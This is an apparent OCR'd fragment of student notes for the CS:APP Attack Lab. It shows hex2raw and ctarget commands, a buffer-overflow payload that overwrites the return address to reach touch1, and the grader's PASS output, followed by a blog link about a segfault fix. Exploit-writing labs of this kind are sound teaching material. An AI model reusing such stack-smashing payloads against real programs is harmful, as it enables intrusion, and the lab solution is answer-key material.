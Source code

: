 ```shell
./hex2raw < ctarget01.txt > ctarget01r.txt
./ctarget -i ctarget01r.txt -q
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 
```

- [Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04 | Rijuyuezhu's Blog](https://blog.rijuyuezhu.top/posts/db646f34/)

- [ ] patchelf
